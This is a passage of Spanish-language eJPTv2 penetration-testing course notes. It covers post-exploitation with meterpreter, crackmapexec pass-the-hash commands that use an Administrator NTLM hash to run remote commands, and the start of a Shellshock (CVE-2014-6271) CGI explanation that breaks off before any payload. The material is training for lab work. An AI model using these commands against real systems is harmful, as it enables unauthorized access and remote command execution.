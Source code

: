 - Hemos conseguido una sesión meterpreter para Administrator:

Comprobamos la información del sistema y los permisos:

```bash
meterpreter > sysinfo
meterpreter > getuid
```

Vamos a probar ahora con la herramienta Crackmapexec. Utilizamos el siguiente comando:

```bash
crackmapexec smb <IP_target> -u Administrator -H “<Hash NTLM>”
```

Si nos funciona, probamos el siguiente comando:

```bash
crackmapexec smb <IP_target> -u Administrator -H “<Hash NTLM>” -x "ipconfig"
```

Puede dar algunos errores por problemas con las librerías de Python, pero funciona igualmente. Podemos sustituir “ipconfig” por otros comandos.

### Shellshock (Linux)

Vulnerabilidad de Bash, CVE-2014-6271, de Linux. La razón de que esta vulnerabilidad sea tan peligrosa y crítica, es que permite a un atacante ejecutar comandos arbitrarios de forma remota en el objetivo Linux. Esta explotación involucra 2 servicios: Apache y Bash. Se ejecuta a partir de un script CGI, que se envía al servidor Apache. Estos scripts los utiliza Apache para ejecutar comandos en el sistema Linux y mostrar la salida al cliente. Lo más efectivo es insertar manualmente los comandos en el encabezado HTTP. En este ejemplo, vemos en la máquina objetivo el puerto 80 abierto con Apache corriendo. Si miramos su contenido con el navegador, vemos que tiene una cuenta atrás anunciando el momento en el que la página estará disponible, y esto se trata de un script CGI.

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2055.png)

Si inspeccionamos el código, vemos que efectivamente es así:
